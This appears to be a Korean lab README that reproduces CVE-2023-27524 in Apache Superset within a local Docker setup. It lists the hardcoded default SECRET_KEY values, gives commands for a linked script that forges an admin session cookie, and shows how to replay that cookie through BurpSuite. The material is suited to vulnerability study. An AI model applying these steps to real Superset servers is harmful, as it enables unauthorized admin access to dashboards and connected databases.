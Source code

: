 ## Apache Superset Hardcoded JWT Secret Key Leads to Authentication Bypass (CVE-2023-27524)
Apache Superset은 시각적, 직관적, 대화형으로 설계된 오픈소스 데이터 탐색 및 시각화 플랫폼입니다.
Apache Superset에는 하드코딩된 JWT 비밀 키 취약점(CVE-2023-27524)이 포함되어 있습니다.
이 애플리케이션은 `SECRET_KEY`세션 쿠키에 서명하는 데 사용되는 기본값과 함께 제공됩니다. 
관리자가 이 기본 키를 변경하지 못하면 공격자는 유효한 세션 쿠키를 위조하고 관리자를 포함한 모든 사용자로 인증할 수 있습니다. 
이를 통해 Superset 대시보드, 연결된 데이터베이스에 대한 무단 액세스가 허용되고 잠재적으로 원격 코드 실행으로 이어질 수 있습니다.

- Ubuntu 24.04 환경에서 진행하였습니다.
### 환경 설정

```bash
# git clone --depth 1 [https://github.com/{repositry주소}.git](https://github.com/ggam-yong/ch-vulhub.git)
git clone --depth 1 https://github.com/ggam-yong/ch-vulhub.git
cd ch-vulhub/superset/CVE-2023-27524
docker compose up -d
```

---

### 취약점 재생산
![로그인페이지](login.png)

다음 명령을 실행하여 Apache Superset 2.0.1 서버를 시작합니다.

`firefox에서 http://127.0.0.1:8088` 에 접속합니다. 기본 로그인 자격 증명은 admin/vulhub입니다.

Superset이 다음의 하드코딩된 기본값 중 하나를 사용하기 때문에 취약점이 존재합니다 `SECRET_KEY`.

- `\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h`(버전 < 1.4.1)
- `CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET`(버전 >= 1.4.1)
- `thisISaSECRET_1234`(배포 템플릿)
- `YOUR_OWN_RANDOM_GENERATED_SECRET_KEY`(선적 서류 비치)
- `TEST_NON_DEV_SECRET`(도커 컴포즈)

---

### 관리자 세션 쿠키 획득

[CVE-2023-27524.py를](https://github.com/ggam-yong/ch-vulhub/blob/main/superset/CVE-2023-27524/CVE-2023-27524.py) 사용하여 관리자 세션쿠키로 위조합니다. 이때 관리자 세션쿠키는 user_id 가 1입니다. 이 스크립트는 알려진 기본 비밀 키를 사용하여 세션 쿠키를 크랙하려고 시도합니다.
# Install dependencies
pip install -r requirements.txt

# Forge an administrative session (whose user_id is 1) cookie
python CVE-2023-27524.py --url http://127.0.0.1:8088 --id 1 --validate

![관리자 쿠키](cookie.png)

쿠키 값에 우의 JWT 토큰을 사용하면 `Cookie: eyJfdXNlcl9pZCI6MSwidXNlcl9pZCI6MX0.Z_...` Superset의 백엔드 엔드포인트에 액세스할 수 있습니다.

---

### BurpSuite

우분투 환경에서 BurpSuite와 chrome browser를 설치한 후 다음의 명령어를 통해 BurpSuiteCommunity를 실행해 줍니다. 


```bash
cd ~/BurpSuiteCommunity
./BurpSuiteCommunity
```
![변조전](guest.png)
![변조 후](admin.png)


요청의 Cookie: session 값을 획득한 값으로 위조하면 Superset의 백엔드 엔드포인트에 액세스할 수 있습니다.

![성공](backend)






